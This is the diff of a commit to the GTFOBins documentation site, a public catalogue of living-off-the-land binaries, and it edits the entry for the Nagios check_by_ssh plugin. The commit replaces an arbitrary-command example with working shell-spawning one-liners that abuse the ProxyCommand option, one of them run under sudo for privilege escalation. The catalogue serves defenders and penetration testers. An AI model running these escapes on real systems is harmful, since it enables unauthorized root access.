

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/check_by_ssh.md, in a window 1280 px wide. Shown: the top 702 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Replace command with shell in check_by_ssh

```diff
--- a/_gtfobins/check_by_ssh.md
+++ b/_gtfobins/check_by_ssh.md
@@ -2,20 +2,10 @@
 description: |
   This is the `check_by_ssh` Nagios plugin, available e.g. in `/usr/lib/nagios/plugins/`.
 functions:
-  command:
-    - code: |
-        COMMAND=id
-        OUTPUT=output_file
-        TF=$(mktemp)
-        echo "ProxyCommand $COMMAND | tee $OUTPUT" > $TF
-        check_by_ssh -F $TF -H localhost -C something
-        cat $OUTPUT
+  shell:
+    - description: The shell will only last 10 seconds.
+      code: check_by_ssh -o "ProxyCommand /bin/sh -i <$(tty) |& tee $(tty)" -H localhost -C xx
   sudo:
-    - code: |
-        COMMAND=id
-        OUTPUT=output_file
-        TF=$(mktemp)
-        echo "ProxyCommand $COMMAND | tee $OUTPUT" > $TF
-        sudo check_by_ssh -F $TF -H localhost -C something
-        cat $OUTPUT
+    - description: The shell will only last 10 seconds.
+      code: sudo check_by_ssh -o "ProxyCommand /bin/sh -i <$(tty) |& tee $(tty)" -H localhost -C xx
 ---
```
